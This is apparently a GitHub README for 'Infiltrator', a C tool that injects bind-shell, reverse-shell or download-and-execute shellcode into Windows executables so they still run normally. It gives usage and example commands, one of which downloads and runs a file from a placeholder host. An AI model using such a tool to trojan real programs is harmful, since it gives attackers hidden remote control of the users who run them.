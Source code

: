Infiltrator
===========

Infiltrator 0.1

[*] License:

  Infiltrator by Saif El-Sherei is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
[*] Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
[*] Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

[*] Refrences:

https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

[*] Credits:

		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"
		[*] Stephen Fewer
				" for his block_api method. i tweaked it to use function hashes explained by  skylined and corelan method"

[*] Author:

		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
[*] Features:

		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
[*] Todo:

		[*] Payload encoding.
[*] Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i [EXE]   				INPUT file.exe (PE)
 
 -o [EXE]				OUPUT file.exe (PE)
 
 -s [TYPE]   				Normal Shellcode followed by one of the payload types
 
 -k [TYPE]    				Threaded Shellcode followed by one of the payload types

[*] Payload Types:

 "bind"                          	Bind payload Followed by payload options
 
 "reverse"                        	Connect Back Payload Followed by payload options
 
 "download & execute"     		Download & exec Payload Followed by payload options
 

[*] Payload Options:

 -p [port]                      	port to use (Bind or Reverse Payload)
 
 -h [host]                      	Host to connect to (Reverse Payload)
 
 -u [url]                      		URL to connect to (Download & Exec Payload)
 
 -f [path]                     		path to file to fetch (Download & Exec Payload)
 
 -of [output file]      		output file to Execute from  Download & Exec Payload

